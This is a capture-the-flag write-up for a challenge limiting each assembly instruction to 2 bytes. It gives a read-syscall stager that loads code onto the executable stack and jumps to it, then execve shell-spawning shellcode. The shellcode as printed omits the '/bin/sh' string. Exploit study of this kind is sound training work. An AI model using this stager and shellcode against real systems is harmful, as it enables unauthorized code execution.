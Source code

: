 ## Challange
Get the flag by taking control of the shellcode, but each istruction could be of max 2 bytes.
## Solution
The binary uses capstone to execute an arbitrary assembly input but it should be of max 2 bytes. By using gdb and breaking before the input code is executed we can see the state of registers.
```
rax = 0
rsp = something on stack
```
Since `rsp` is pointing to the stack, which is `RWX`, we can simply program a `read` in this way:

```assembly
;         rax     rdi                 rsi         rdx    
; 	read	0x00	unsigned int fd	    char *buf	size_t count
push rax 
pop rdi ; fd = 0 stdin

push rax
pop rdx 
mov dl, 0xff ; count = 0xff

push rsp
pop rsi ; rsi points to stack

syscall

jmp rsi ; jmp to read code
```

This will allow us to inject arbitrary code (shellcode) and with `jmp` execute it. The shellcode is:
```assembly
jmp binsh
back:
xor rax, rax
mov al, 0x3b
pop rdi
xor rsi, rsi
xor rdx,rdx
syscall

binsh:
call back
nop
nop
```
